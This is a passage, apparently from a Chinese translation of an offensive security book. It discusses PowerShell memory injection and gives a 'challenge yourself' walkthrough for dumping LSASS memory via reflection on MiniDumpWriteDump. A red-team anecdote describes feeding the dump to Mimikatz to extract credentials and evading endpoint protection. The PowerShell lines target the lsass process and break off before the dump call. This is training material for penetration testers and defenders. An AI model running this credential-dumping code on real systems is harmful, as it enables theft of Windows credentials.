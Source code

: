 图 12.2 – 执行的有效负载

请注意，还有一些相关的函数叫做`VirtualAllocEx()`和`CreateRemoteThread()`。它们有什么区别呢？这两个函数实现的效果是一样的，只不过是作用于*另一个*进程的内存。通过在这里使用这些函数，PowerShell 解释器正在它自己的内存中分配空间并在自己的进程下启动一个新线程。秉持着我们的口号，*防御不可傻*，有很多方法可以捕捉到这种行为。然而，要跟上所有变化是非常困难的，而且有些厂商直到今天仍然依赖旧的方法。保持灵活的思维！

## 挑战自我 – 使用 PowerShell 进行即时 LSASS 内存转储

让我们继续使用 PowerShell 与 Windows API 进行实时交互的主题。这一次，我们不打算注入任何内容；我们要使用 Windows 本地的调试功能来攻击 **本地安全授权服务器服务**(**LSASS**)。这种行为 *应该* 被拦截，但我们发现，在某些配置和某些 AV 供应商的情况下，这仍然有效。

战争故事 – 一个真实的攻击场景

最近，我参与了一次主要基于 Windows 10 环境的红队评估。团队中的一位成员编写了一个精妙的工具，利用 Windows 本地的内存转储方法来转储 LSASS 内存，并调用 Mimikatz 提取凭证。这个工具一直都能正常工作，直到有一天，终端保护软件更新了，开始拦截它。几周后，我在一台安装了流行远程控制软件 VNC、且密码较弱的主机上工作，而 Windows 会话也保持解锁状态。因此，我可以虚拟地坐到键盘前。我写出了同样工具的 PowerShell 版本，然后将文本托管为一个网页。通过目标 PC 上的浏览器，我访问了该页面，复制了 PowerShell 脚本的文本，将其粘贴到 PowerShell 会话中并按下回车。它成功了！我得到了 LSASS 内存的转储，而且不需要下载任何东西。

这篇写得很简短，一旦你习惯了，就能省去一些代码行。和我们的内存注入攻击类似，我们正在利用本地方法。在这种情况下，我们使用了 `MiniDumpWriteDump()`，这是一个为我们创建小转储文件的函数。我们可以指定要转储的进程，那么让我们看看当我们尝试对 LSASS 进程进行操作时会发生什么。开始吧：

```
$WinErrRep = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting')
```

```
$werNativeMethods = $WinErrRep.GetNestedType('NativeMethods', 'NonPublic')
```

```
$Flags = [Reflection.BindingFlags] 'NonPublic, Static'
```

```
$MiniDumpWriteDump = $werNativeMethods.GetMethod('MiniDumpWriteDump', $Flags)
```

到目前为止，一切顺利。我们引入了 `WindowsErrorReporting`，它允许我们在某些崩溃发生时找出问题所在。本质上，我们希望能够像调查普通的 **蓝屏死机**(**BSoD**) 崩溃一样，调查 LSASS。在我们可以使用的各种方法中，我们选择了 `MiniDumpWriteDump()`。现在，我们需要定义目标进程以及转储文件的目的地。

```
$MiniDumpfull = [UInt32] 2
```

```
$lsass = Get-Process lsass
```

```
$ProcessId = $lsass.Id
```

```
$ProcessName = $lsass.Name
```

```
$ProcessHandle = $lsass.Handle
```

```
$ProcessFileName = "$Home\Desktop\pirate_booty.dmp"
```
